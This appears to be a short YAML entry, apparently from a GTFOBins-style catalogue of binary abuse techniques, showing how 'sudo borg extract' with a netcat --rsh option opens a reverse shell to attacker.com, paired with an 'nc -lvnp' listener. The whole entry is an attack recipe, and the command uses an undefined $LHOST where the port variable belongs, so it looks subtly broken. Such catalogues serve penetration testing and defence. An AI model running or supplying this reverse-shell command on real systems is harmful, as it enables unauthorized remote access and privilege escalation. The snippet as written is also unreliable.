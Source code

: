 ```yaml
---
  sudo:
    - description: Run `nc -lvnp 12345` on the attacker box to receive the shell. 
      code: |
        RHOST=attacker.com
        RPORT=12345
        NETCAT=/usr/bin/nc
        sudo borg extract .@.:/::.  --rsh "$NETCAT $RHOST $LHOST -e sh"
---
```

